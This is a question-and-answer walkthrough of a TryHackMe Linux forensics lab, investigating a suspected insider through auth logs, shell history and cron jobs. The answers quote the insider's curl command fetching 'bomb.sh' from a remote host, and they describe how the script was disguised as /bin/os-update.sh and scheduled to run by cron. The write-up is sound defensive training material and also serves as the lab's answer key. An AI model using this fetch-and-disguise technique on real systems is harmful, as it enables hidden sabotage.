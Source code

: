 # 🐧 TryHackMe: CyberT Insider Threat – Linux Forensics Investigation

## 🧠 Scenario

An employee from the IT department of one of our clients, **CyberT**, was recently arrested for running a phishing operation. CyberT has asked us to investigate a Linux system the individual accessed to determine whether any malicious activity occurred prior to their arrest.

This investigation required reviewing log files, shell history, and cron jobs to uncover potential insider threats.

---

## 🔍 Questions & Answers

---

### 1) The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?

> **Answer:** `/usr/bin/apt install dokuwiki`

**Explanation:**  
To find this, I searched the authentication logs for installation commands using:

```bash
cat /var/log/auth.log | grep "install"
```

The logs revealed a `sudo` command where the user used `/usr/bin/apt` to install `dokuwiki`.

---

### 2) What was the present working directory (PWD) when the previous command was run?

> **Answer:** `/home/cybert`

**Explanation:**  
The same log entry that showed the install command also included a `PWD` field indicating the present working directory at the time of execution.

---

### 3) Which user was created after the package from the previous task was installed?

> **Answer:** `it-admin`

**Explanation:**  
User creation typically uses `adduser`. I searched the logs with:

```bash
cat /var/log/auth.log | grep "adduser"
```

This revealed the addition of a new user named `it-admin`.

---

### 4) A user was then later given sudo privileges. When was the sudoers file updated?  
_Format: Month Day HH:MM:SS_

> **Answer:** `Dec 28 06:27:34`

**Explanation:**  
The `visudo` command is used to safely edit the sudoers file. Searching the logs for `visudo` revealed the timestamp of when the sudo privileges were granted.

---

### 5) A script file was opened using the "vi" text editor. What is the name of this file?

> **Answer:** `bomb.sh`

**Explanation:**  
I searched the logs for the keyword `vi`:

```bash
cat /var/log/auth.log | grep "vi"
```

Only one file was opened with `vi`, and it was named `bomb.sh`.

---

### 6) What is the command used that created the file bomb.sh?

> **Answer:** `curl 10.10.158.38:8080/bomb.sh --output bomb.sh`

**Explanation:**  
Looking in the `.bash_history` file of the user `it-admin` revealed the use of a `curl` command to download and save the `bomb.sh` script:

```bash
cat /home/it-admin/.bash_history
```

---

### 7) The file was renamed and moved to a different directory. What is the full path of this file now?

> **Answer:** `/bin/os-update.sh`

**Explanation:**  
I found this by viewing the `.viminfo` file, which stores data about recently opened or saved files in `vi`:

```bash
cat /home/it-admin/.viminfo
```

This showed that `bomb.sh` was saved as `/bin/os-update.sh`.

---

### 8) When was the file from the previous question last modified?  
_Format: Month Day HH:MM_

> **Answer:** `Dec 28 06:29`

**Explanation:**  
Running a detailed listing in `/bin` showed the last modification time of `os-update.sh`:

```bash
ls -al --full-time /bin/os-update.sh
```

---

### 9) What is the name of the file that will get created when the file from the first question executes?

> **Answer:** `goodbye.txt`

**Explanation:**  
Reading the contents of `/bin/os-update.sh` using `cat` showed that it creates a file named `goodbye.txt`.

```bash
cat /bin/os-update.sh
```

---

### 10) At what time will the malicious file trigger?  
_Format: HH:MM AM/PM_

> **Answer:** `08:00 AM`

**Explanation:**  
Inspecting the crontab configuration showed that `os-update.sh` was scheduled to run daily at 08:00 AM:

```bash
crontab -l
```

---


